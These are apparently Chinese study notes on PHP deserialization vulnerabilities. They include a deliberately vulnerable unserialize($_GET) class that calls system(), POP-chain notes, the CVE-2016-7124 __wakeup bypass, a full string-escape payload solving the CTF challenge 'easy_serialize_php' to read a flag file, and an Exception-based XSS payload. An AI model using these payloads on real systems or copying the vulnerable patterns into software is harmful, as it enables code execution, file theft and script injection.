

序列化：将对象转换为字符串或者数组 `serialize()`

反序列化：将字符串或者数组转化为对象 `unserialize()`

序列化数据格式：


魔术方法：


即使不主动销毁，程序结束时也会自动调用__destruct

__INVOKE


__get


反序列化漏洞产生：

原始代码：

```php
// 1.php
<php
class B{
	public $cmd = 'ipconfig';
	public function __destruct(){
		system($this->cmd);
	}
	
}

unserialize($_GET['x']);
```

我们写的代码：

```php
// pop.php
<php
class B{
	public $cmd = 'ipconfig';
	public function __destruct(){
		system($this->cmd);
	}
	
}
$pop = new B();
echo serialize($pop);
```

访问1.php `?x=pop.php`的序列化的结果

如果不想执行ipconfig 把pop.php里面的ipconfig换成其他命令即可 例如ver

## POP链


pop链的构造 是需要改什么就写什么 不用改的就不用写


对象变量属性：

public：在本类内部、外部、子类都可以访问

protected：只有本类或者子类或者父类中可以访问

private：只有本类内部可以访问


序列化数据显示：

public属性序列化的时候格式是正常的

private属性序列化的时候格式是`%00类名%00成员名`

protected属性序列化的时候格式是`%00*%00成员名`


**漏洞编号**: CVE-2016-7124

**影响版本**: PHP 5 < 5.6.25; PHP 7 < 7.0.10

**漏洞危害**

当一个对象被序列化后，如果该对象的类定义中存在`__wakeup`方法，在调用`unserialize()`函数反序列化该对象时，会先执行`__wakeup`方法。这是为了在对象恢复到内存中时能够进行一些初始化操作。

然而，这个漏洞指出，**如果序列化字符串中表示对象属性个数的值大于实际存在的属性个数，那么`__wakeup`方法将不会被执行**。这意味着攻击者可以通过构造特殊的序列化字符串来绕过`__wakeup`方法的执行，从而可能引发安全问题。

**实际影响**

这种情况下，攻击者可以利用这一点来规避开发者在`__wakeup`方法中设置的安全检查或初始化逻辑，进而可能实现代码注入或其他恶意行为。


## 字符串逃逸

一道CTF题： 安洵杯 2019 easy_serialize_php

```php
<?php

$function = @$_GET['f'];

// 有下面的关键字就过滤为空
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

// 通过POST传递的每一个键值对会被创建为变量，且会覆盖已有变量，即如果传递_SESSION[user]=a 那么上面的guest会被会改为a
extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

// 序列化并过滤 一般字符逃逸题会这样出
$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

`?f=phpinfo`里面找到了


也就是说在加载页面代码之前会加载一个`d0g3_f1ag.php`这个可能就是flag所在的文件

看最后几行代码，如果通过get请求`show_image`（`?f=show_image`），那么会反序列化，并且base64解密`$_SESSION['img']`中的值，并读出来

所以我们需要让`$_SESSION['img']`的值为`d0g3_f1ag.php`的base64加密值

但是如何赋值呢？代码中并没有给`$_SESSION['img']`的条件，所以只能通过字符逃逸

如果说正常反序列化，字符串里面是有三个元素的，除了`SESSION['user']`和`SESSION['function']`，代码还会给`$_SESSION['img']`赋值

```php
<?php

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'a';
$_SESSION['img'] = base64_encode('guest_img.png'); //随便给它赋个值 这不重要


echo serialize($_SESSION)."\n";

$serialize_info = filter(serialize($_SESSION));

echo $serialize_info;
```

得到序列化之后的字符串：

```
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:1:"a";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

需要通过字符逃逸把`";s:8:"function";s:1:"a`吞掉（23个字符，但是我们需要吞24个字符，因为后面这里面的1会变成两位数）

24 = flag * 6 = 4 * 6

```php
<?php

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


$_SESSION["user"] = 'flagflagflagflagflagflag';
$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"b";}';
$_SESSION['img'] = base64_encode('guest_img.png'); //随便给它赋个值 这不重要


echo serialize($_SESSION)."\n";

$serialize_info = filter(serialize($_SESSION));

echo $serialize_info;
```

```
a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:58:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"b";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}

a:3:{s:4:"user";s:24:"";s:8:"function";s:58:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"b";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

吞掉了24个字符，`";s:8:"function";s:58:"a`成为了user的值。分号后面的下一个元素是img，值是`ZDBnM19mMWFnLnBocA==`。然后后面我又构造了一个，因为元素数是3。最后被 } 截断，后面的东西被忽略


也就是说它认为过滤之后的字符串是：

```
a:3:{s:4:"user";s:24:"";s:8:"function";s:58:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"b";}
```

将其反序列化之后：

```
array(3) {
  ["user"]=>
  string(24) "";s:8:"function";s:58:"a"
  ["img"]=>
  string(20) "ZDBnM19mMWFnLnBocA=="
  ["a"]=>
  string(1) "b"
}
```

代码去读取img中的`ZDBnM19mMWFnLnBocA==`进行base64解密，即d0g3_f1ag.php，然后读取d0g3_f1ag.php中的内容


## 原生类

应用场景：没有看见魔术方法利用的情况下

```php
<?php

highlight_file(__FILE__);
$a = unserialize($_GET['k']);
echo $a;
```

echo会触发toString()魔术方法

之前都给你类让你调用，现在没有了，你只能去找php环境里有的类了

下面代码的目的是：遍历所有已声明的类，并检查每个类中是否存在特定的魔术方法，如果存在，则打印出类名和方法名：

```php
<?php

$classes = get_declared_classes();
foreach ($classes as $class) {
    $methods = get_class_methods($class);
    foreach ($methods as $method) {
        // 查看php环境里面哪些类是否存在下面的魔术方法，把不用的魔术方法注释掉
        if (in_array($method, array(
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            '__set_state'
        ))) {
            print $class . '::' . $method . "\n";
        }
    }
}
```



构造代码：

```php
$a = new Exception("message: \"<script>alert('xiaodi')</script>\"");
echo urlencode(serialize($a));
```

**理解上面的逻辑：**

echo输出一个对象的时候，PHP不能直接把对象打印出来，PHP会**自动寻找**这个对象所属类中是否定义了 `__toString()` 魔术方法，如果找到了 `__toString()` 方法，PHP 就会调用它，并将该方法的**返回值**当作字符串输出。

PHP 内置的 `Exception` 类**自带**一个 `__toString()` 方法。它返回一个格式化的字符串，这个返回的字符串中包含了你创建异常时传入的 `message` 参数，并且这个 `message` 是原样包含的，不会进行HTML转义！

所以服务器执行`echo $a`的时候，发现$a是一个对象，就自动调用$a->toString()；

`Exception` 类的 `__toString()` 方法被执行，它生成一个包含异常信息的字符串。这个字符串中就包含了原始的、未经过HTML转义的 `message`：


